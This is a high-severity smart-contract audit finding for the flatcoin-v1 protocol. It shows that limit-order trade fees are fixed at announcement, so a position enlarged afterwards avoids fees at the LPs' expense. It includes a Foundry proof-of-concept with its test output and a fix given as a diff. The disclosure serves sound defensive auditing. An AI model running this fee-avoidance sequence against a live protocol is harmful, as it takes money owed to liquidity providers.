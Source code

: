 Droll Ash Cricket

high

# Trade fees can be avoided in limit orders

## Summary

On limit order announcement the trade fee is calculated based on the current size of the position and its value is used on the execution of the limit order. However, it is not taken into account that the value of `additionalSize` in the position can have changed since the limit order was announced, so users can avoid paying trade fees for closing leveraged positions at the expense of LPs.

## Vulnerability Detail

When a user announces a limit order to close a leveraged position the trade fee [is calculated](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L62-L64) based on the current trade fee rate and the `additionalSize` of the position and [stored](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L69) in the `_limitOrderClose` mapping.

On the execution of the limit order, the value of the trade fee recorded in the `_limitOrderClose` mapping is [used to build the `AnnoundedLeverageClose` struct](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L166-L172) that is sent to the `LeverageModule:executeClose` function. In this function the trade fee is [used to pay the stable LPs](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L310) and [subtracted from the total amount](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L314) received by the user closing the position.

However, it is not taken into account that the value of `additionalSize` in the position can have changed since the limit order was announced [via the `LeverageModule:executeAdjust` function](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L196).

As a result, users that want to open a limit order can do so using the minimum `additionalSize` possible and then increase it after the limit order is announced, avoiding paying the trade fee for the additional size adjustment.

It is also worth mentioning that the trade fee rate can change between the announcement and the execution of the limit order, so the trade fee calculated at the announcement time can be different from the one used at the execution time. Although this scenario is much less likely to happen (requires the governance to change the trade fee rate) and its impact is much lower (the trade fee rate is not likely to change significantly).


## Impact

Users can avoid paying trade fees for closing leveraged positions at the expense of UNIT LPs, that should have received the trade fee.

## Code Snippet

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L62-L64

## Proof of concept

<details>

<summary>Tests</summary>

The following tests show the example of a user that opens a limit order to be executed when the price doubles. 

The operations performed in both tests are identical, but the order of the operations is different, so we can see how a user can exploit the system to avoid paying trade fees.

To reproduce it add the following code to `AdjustPositionTest` contract and run `forge test --mt test_LimitTradeFee -vv`:

```solidity
    function test_LimitTradeFee_ExpectedBehaviour() public {
        uint256 aliceCollateralBalanceBefore = WETH.balanceOf(alice);
        uint256 collateralPrice = 1000e8;

        announceAndExecuteDeposit({
            traderAccount: bob,
            keeperAccount: keeper,
            depositAmount: 10000e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Create small leverage position
        uint256 initialMargin = 0.05e18;
        uint256 initialSize = 0.1e18;
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: initialMargin,
            additionalSize: initialSize,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Increase margin and size in position
        uint256 adjustmentTradeFee = announceAndExecuteLeverageAdjust({
            tokenId: tokenId,
            traderAccount: alice,
            keeperAccount: keeper,
            marginAdjustment: 100e18,
            additionalSizeAdjustment: 2400e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Anounce limit order to close position at 2x price
        vm.startPrank(alice);
        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 0,
            priceUpperThreshold: collateralPrice * 2
        });

        // Collateral price doubles after 1 month and the order is executed
        skip(4 weeks);
        collateralPrice = collateralPrice * 2;
        setWethPrice(collateralPrice);
        bytes[] memory priceUpdateData = getPriceUpdateData(collateralPrice);
        vm.startPrank(keeper);
        limitOrderProxy.executeLimitOrder{value: 1}(tokenId, priceUpdateData);

        uint256 aliceCollateralBalanceAfter = WETH.balanceOf(alice);
        console2.log("profit:", aliceCollateralBalanceAfter - aliceCollateralBalanceBefore);
    }

    function test_LimitTradeFee_PayLessFees() public {
        uint256 aliceCollateralBalanceBefore = WETH.balanceOf(alice);
        uint256 collateralPrice = 1000e8;

        announceAndExecuteDeposit({
            traderAccount: bob,
            keeperAccount: keeper,
            depositAmount: 10000e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Create small leverage position
        uint256 initialMargin = 0.05e18;
        uint256 initialSize = 0.1e18;
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: initialMargin,
            additionalSize: initialSize,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Anounce limit order to close position at 2x price
        vm.startPrank(alice);
        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 0,
            priceUpperThreshold: collateralPrice * 2
        });

        // Increase margin and size in position
        uint256 adjustmentTradeFee = announceAndExecuteLeverageAdjust({
            tokenId: tokenId,
            traderAccount: alice,
            keeperAccount: keeper,
            marginAdjustment: 100e18,
            additionalSizeAdjustment: 2400e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Collateral price doubles after 1 month and the order is executed
        skip(4 weeks);
        collateralPrice = collateralPrice * 2;
        setWethPrice(collateralPrice);
        bytes[] memory priceUpdateData = getPriceUpdateData(collateralPrice);
        vm.startPrank(keeper);
        limitOrderProxy.executeLimitOrder{value: 1}(tokenId, priceUpdateData);

        uint256 aliceCollateralBalanceAfter = WETH.balanceOf(alice);
        console2.log("profit:", aliceCollateralBalanceAfter - aliceCollateralBalanceBefore);
    }
```

</details>


<details>

<summary>Result</summary>

```js
[PASS] test_LimitTradeFee_ExpectedBehaviour() (gas: 2457623)
Logs:
  profit: 1195246800000000000000

[PASS] test_LimitTradeFee_PayLessFees() (gas: 2441701)
Logs:
  profit: 1197646800000000000000

Test result: ok. 2 passed; 0 failed; 0 skipped; finished in 21.23ms
```

As we can see, in the second case the user was able to get a profit 2.4 rETH higher, corresponding to the trade fee avoided for the additional size adjustment done after creating the limit order (2,400 rETH * 0.1% fee). That higher profit has come at the expense of LPs, who should have received the trade fee.

</details>

## Tool used

Manual Review

## Recommendation

Calculate the trade fee at the execution time of the limit order, in the same way it is done for stable withdrawals for the withdrawal fee.

```diff
File: LimitOrder.sol

+       uint256 tradeFee = ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).getTradeFee(
+           vault.getPosition(tokenId).additionalSize
+       );
+
        order.orderData = abi.encode(
            FlatcoinStructs.AnnouncedLeverageClose({
                tokenId: tokenId,
                minFillPrice: minFillPrice,
-               tradeFee: _limitOrder.tradeFee
+               tradeFee: tradeFee
            })
        );
```

A `maxTradeFee` parameter can also be added at the announcement time to avoid the trade fee being higher than a certain value.